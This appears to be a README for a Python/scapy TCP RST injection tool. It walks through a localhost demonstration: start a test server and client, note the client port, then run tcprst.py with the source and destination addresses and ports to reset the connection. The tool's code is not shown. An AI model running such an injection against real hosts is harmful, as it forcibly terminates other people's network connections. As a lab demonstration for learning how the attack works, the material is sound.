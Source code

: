 This repository contains a python/scapy implementation of the TCP RST injection showcased in the included c file. 

Howto:

$ indicates command to be executed

	 indicates output on the console


start the server

$ python server.py
    TCP Server binding to port 5000

start the client

$ python client.py

record the port number the server reports (47413 in the running example)

    I got a connection from 127.0.0.1:47413

start the injection

$ python tcprst.py -D 127.0.0.1 -d 5000 -S 127.0.0.1 -s 47413

wait until the server and the client exit with a message like:

    Traceback (most recent call last):
      File "server.py", line 15, in <module>
        data = client_socket.recv(512)
    socket.error: [Errno 104] Connection reset by peer

done!

More info on TCP/RST injection:
* http://kerneltrap.org/node/3072
* http://www.blackhatacademy.org/security101/TCP-RST_Injection

Source of the c file: 
* http://packetstormsecurity.org/files/38708/tcprst.c.html